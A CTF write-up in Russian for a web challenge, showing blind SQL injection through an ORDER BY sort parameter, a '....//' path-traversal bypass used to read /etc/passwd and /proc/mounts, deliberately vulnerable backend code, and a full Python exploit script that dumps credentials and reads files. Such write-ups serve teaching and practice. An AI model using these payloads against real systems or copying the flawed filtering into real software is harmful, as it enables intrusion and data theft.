








# Панель допуска — Лаборатория X


> **Описание задания:**  
> *«ALICE открыла архив панели допуска Лаборатории X — такой, какой та была в 2018 году, до инцидента. Таблица персонала, журнал выдачи карт, лента оповещений отделения и вход для сотрудников. Всё восстановили из резервной копии, но не целиком: часть записей уцелела не полностью, часть разделов собирали заново.*  
> *Посмотрите, что осталось от смены, которая официально давно не работает.»*

---

## 📑 Содержание

- [Краткая сводка (TL;DR)](#-краткая-сводка-tldr)
- [Цепочка атаки (Killchain)](#-цепочка-атаки-killchain)
- [Этап 1. Разведка и анализ легенды](#-этап-1-разведка-и-анализ-легенды)
- [Этап 2. Blind SQLi в `ORDER BY`](#-этап-2-blind-sqli-в-order-by)
- [Этап 3. Авторизация и доступ к панели](#-этап-3-авторизация-и-доступ-к-панели)
- [Этап 4. LFI через обход фильтрации `....//`](#-этап-4-lfi-через-обход-фильтрации-)
- [Этап 5. Linux Forensics: поиск архива через `/proc/mounts`](#-этап-5-linux-forensics-поиск-архива-через-procmounts)
- [Этап 6. Взятие флага](#-этап-6-взятие-флага)
- [Полный скрипт эксплойта](#-полный-скрипт-эксплойта)

---

## ⚡ Краткая сводка (TL;DR)

1. **Разведка:** В ленте оповещений (`/alerts`) упоминается недавнее добавление сортировки в журнал и существование забытой «ночной смены».
2. **SQL Injection:** Эндпоинт `POST /archive/access-log` уязвим к Blind SQLi в параметре `sort` (`ORDER BY`). Через условную сортировку (`CASE WHEN`) и бинарный поиск дампим таблицу `staff` и получаем креды оператора: `night_shift:n1ght'sh1ft2018`.
3. **Авторизация:** Входим на `/login`, получаем JWT-cookie с ролью `Operator`, открывая доступ к функционалу выгрузки `/panel/export?file=...`.
4. **Path Traversal:** Фильтр выполняет нерекурсивный `replace("../", "")`. Последовательность `....//` схлопывается в `../`, давая Arbitrary File Read.
5. **Recon через `/proc`:** Читаем `/proc/mounts`, где обнаруживаем точку монтирования архива: `/var/lib/labx/archive`.
6. **Флаг:** Читаем `/var/lib/labx/archive/ledger.txt` и забираем флаг.

---

## ⛓ Цепочка атаки (Killchain)



---

## 🔍 Этап 1. Разведка и анализ легенды

Главная страница приложения представляет собой терминал допуска архива 2018 года:

<p align="center">
  
</p>

В таблице персонала отображаются трое сотрудников дневной смены (`dr. Demon`, `mr. Fade`, `mr. S`).  
Переходим в раздел **«Оповещения отделения»** (`/alerts`):

<p align="center">
  
</p>

Ключевые зацепки в тексте лора:
- `19.11.2018`: *«В журнал выдачи карт добавлена сортировка по клику на заголовок колонки.»* $\rightarrow$ **наводка на параметр сортировки в `/journal`**.
- `14.10.2018`: *«Дневная смена (dr. Demon, mr. Fade, mr. S) передала дежурство.»* $\rightarrow$ дневная смена публична.
- `28.10.2018` & `02.03.2018`: *«На ночную смену правило временно не распространяется»*, *«Для ночной смены включён отдельный пункт Экспорт протокола»* $\rightarrow$ **целевая учётка — ночная смена (`night_shift`)**.

---

## 💉 Этап 2. Blind SQLi в `ORDER BY`

Открываем страницу **«Журнал карт»** (`/journal`):

<p align="center">
  
</p>

При клике на заголовки колонок отправляется запрос:
```http
POST /archive/access-log HTTP/1.1
Content-Type: application/x-www-form-urlencoded

sort=username
```

На бэкенде (FastAPI/SQLAlchemy) параметр интерполируется прямо в SQL:
```python
query = text(f"SELECT log_date, username, room, device, status FROM access_log ORDER BY {sort}")
```

В блоке `ORDER BY` нельзя применить `UNION`, но работает **булев оракул (Conditional Ordering)** через `CASE WHEN`:

$$\text{sort}=\text{(CASE WHEN (УСЛОВИЕ) THEN username ELSE room END)}$$

- **Если УСЛОВИЕ = True**: сортировка идёт по `username`, первая строка — `dr. Demon` (помещение **`склад`**).
- **Если УСЛОВИЕ = False**: сортировка идёт по `room`, первая строка — помещение **`архив`** (буква «а» первая в алфавите).

<p align="center">
  
</p>

С помощью бинарного поиска по ASCII-кодам символов дампим таблицу `staff`:
- **Row 0:** `dr_demon` : `d3m0n_2018`
- **Row 1:** `mr_fade` : `f4d3_2018`
- **Row 2:** `night_shift` : `n1ght'sh1ft2018` *(заметка: «с 2018 не меняли»)*

---

## 🔑 Этап 3. Авторизация и доступ к панели

Переходим на форму входа `/login`:

<p align="center">
  
</p>

Вводим найденные учётные данные:
* **Username:** `night_shift`
* **Password:** `n1ght'sh1ft2018`

Сервер выставляет JWT-cookie с ролью оператора и перенаправляет в `/panel`:

<p align="center">
  
</p>

В панели появляется модуль экспорта протоколов:
- Эндпоинт: `/panel/export?file=export_2018.log`
- Заметка оператора: *«Резервная копия протокола хранится в архиве, файл `ledger.txt`»*

---

## 📂 Этап 4. LFI через обход фильтрации `....//`

Исходный код обработчика экспорта (`src/API/panel.py`):
```python
filename = request.query_params.get("file", "export_2018.log")
if filename.startswith("/") or filename.startswith("../") or "/../" in filename:
    raise HTTPException(status_code=403, detail="Доступ запрещён")

safe_name = filename.replace("../", "")
path = os.path.join(mc.export_dir, safe_name)
```

**Уязвимость:** фильтрация делает **одинарный** `replace("../", "")`.  
Конструкция `....//` содержит внутри подстроку `../`. При её вырезании оставшиеся точки и слэши схлопываются обратно в боевой `../`:

```text
"....//"  --[ replace("../", "") ]-->  "../"
```

Проверяем Arbitrary File Read:
```http
GET /panel/export?file=....//....//....//....//etc/passwd HTTP/1.1
Cookie: access_token=<JWT_TOKEN>
```
Сервер успешно возвращает содержимое `/etc/passwd`.

---

## 🐧 Этап 5. Linux Forensics: поиск архива через `/proc/mounts`

Так как у нас нет RCE для выполнения `find` или `ls`, точное расположение файла `ledger.txt` неизвестно.  
Используем псевдофайловую систему ядра `/proc`:
```http
GET /panel/export?file=....//....//....//....//proc/mounts HTTP/1.1
```

В выводе обнаруживаем точку монтирования внешнего тома:
```text
/dev/vda1 /var/lib/labx/archive ext4 ro,relatime 0 0
```

Слово «архив» из записки оператора указывает на смонтированный каталог `/var/lib/labx/archive/`!

---

## 🚩 Этап 6. Взятие флага

Запрашиваем файл протокола по полному пути:
```http
GET /panel/export?file=....//....//....//....//....//....//var/lib/labx/archive/ledger.txt HTTP/1.1
Cookie: access_token=<JWT_TOKEN>
```

<p align="center">
  
</p>

<details>
<summary>🚩 <b>Показать флаг</b></summary>

```text
FLAG=nskctf{b4dg3_000_n3v3r_3xp1r3d}
```

</details>

---

## 💻 Полный скрипт эксплойта

<details>
<summary>📜 <b>Развернуть код exploit.py</b></summary>

```python
#!/usr/bin/env python3
"""
NSK CTF - Панель допуска (Лаборатория X)
Full Automated Exploit: Blind SQLi (ORDER BY) + LFI (Path Traversal Bypass)
"""

import http.client
import urllib.parse
import json
import re

TARGET_HOST = "access-panel.labx.nskctf.ru"
TARGET_PORT = 23003

class Exploit:
    def __init__(self, host, port):
        self.host = host
        self.port = port
        self.token = None

    def _post(self, path, data, headers=None):
        conn = http.client.HTTPConnection(self.host, self.port, timeout=10)
        h = {'Content-Type': 'application/x-www-form-urlencoded'}
        if headers:
            h.update(headers)
        body = urllib.parse.urlencode(data)
        conn.request('POST', path, body, h)
        resp = conn.getresponse()
        res_data = resp.read().decode('utf-8')
        conn.close()
        return resp, res_data

    def _get(self, path, headers=None):
        conn = http.client.HTTPConnection(self.host, self.port, timeout=10)
        h = {}
        if headers:
            h.update(headers)
        conn.request('GET', path, headers=h)
        resp = conn.getresponse()
        res_data = resp.read().decode('utf-8')
        conn.close()
        return resp, res_data

    def sqli_ask(self, condition: str) -> bool:
        payload = f"(CASE WHEN ({condition}) THEN username ELSE room END)"
        _, body = self._post('/archive/access-log', {'sort': payload})
        data = json.loads(body)
        return data['rows'][0]['room'] == 'склад'

    def sqli_dump(self, query: str) -> str:
        low, high = 0, 100
        while low <= high:
            mid = (low + high) // 2
            if self.sqli_ask(f"length(({query})::text) > {mid}"):
                low = mid + 1
            else:
                high = mid - 1
        str_len = low

        chars = []
        for i in range(1, str_len + 1):
            low_c, high_c = 32, 126
            char_code = 0
            while low_c <= high_c:
                mid_c = (low_c + high_c) // 2
                if self.sqli_ask(f"ascii(substr(({query})::text, {i}, 1)) <= {mid_c}"):
                    char_code = mid_c
                    high_c = mid_c - 1
                else:
                    low_c = mid_c + 1
            chars.append(chr(char_code))
        return "".join(chars)

    def login(self, username, password):
        print(f"[*] Авторизация под {username}...")
        resp, _ = self._post('/login', {'username': username, 'password': password})
        cookie_header = resp.getheader('set-cookie', '')
        match = re.search(r'access_token=([^;]+)', cookie_header)
        if match:
            self.token = match.group(1)
            print(f"[+] Успешно! Токен получен.")
            return True
        return False

    def read_file(self, file_path):
        traversal = "....//" * 8 + file_path.lstrip('/')
        encoded = urllib.parse.quote(traversal)
        url = f"/panel/export?file={encoded}"
        headers = {'Cookie': f'access_token={self.token}'}
        resp, body = self._get(url, headers)
        if resp.status == 200:
            return body
        return None

def main():
    exp = Exploit(TARGET_HOST, TARGET_PORT)
    print("=== [1] Эксфильтрация кредов через Blind SQLi ===")
    user = exp.sqli_dump("SELECT username FROM staff WHERE username='night_shift'")
    pwd = exp.sqli_dump("SELECT password FROM staff WHERE username='night_shift'")
    print(f"[+] Получены креды: {user}:{pwd}")

    print("\n=== [2] Вход в систему ===")
    if not exp.login(user, pwd):
        return

    print("\n=== [3] Чтение флага через LFI ===")
    flag_path = "/var/lib/labx/archive/ledger.txt"
    content = exp.read_file(flag_path)
    if content:
        print("[+] Содержимое файла:\n" + content.strip())
        flag_match = re.search(r'FLAG=([^\s]+)', content)
        if flag_match:
            print(f"\n[🏆] FLAG: {flag_match.group(1)}")

if __name__ == '__main__':
    main()
```

</details>
